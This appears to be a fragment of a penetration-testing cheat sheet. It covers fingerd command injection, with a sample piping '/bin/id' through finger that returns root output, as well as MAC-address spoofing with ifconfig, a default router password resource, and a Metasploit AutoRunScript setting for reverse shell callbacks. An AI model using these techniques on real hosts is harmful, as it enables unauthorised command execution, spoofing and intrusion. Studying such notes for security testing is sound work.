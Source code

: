 ```
No Plan.



Login: test                             Name: test user

Directory: /home/test                   Shell: /bin/sh

Never logged in.

No mail.

No Plan.
```

Poorly written fingerd implementations allow attackers to pipe commands through the service, which are, in turn, run on the target host by the owner of the service process (such as root or bin under Unix-based systems).

```
# finger "|/bin/id@192.168.0.135"

[192.168.0.135]

uid=0(root) gid=0(root)
```

## Changing MAC Addresses:

Look up vendor MAC you want to impersonate: https://mac2vendor.com/

Change MAC:

```
sudo ifconfig <interface-name> down
sudo ifconfig <interface-name> hw ether <new-mac-address> 
sudo ifconfig <interface-name> up
```

# Routers:

Resources:

```
 https://www.routerpasswords.com
```
# Metasploit Callback Automation:

Use AutoRunScript to run commands on a reverse shell callback

```
set AutoRunScript multi_console_command -rc /root/commands.rc
```
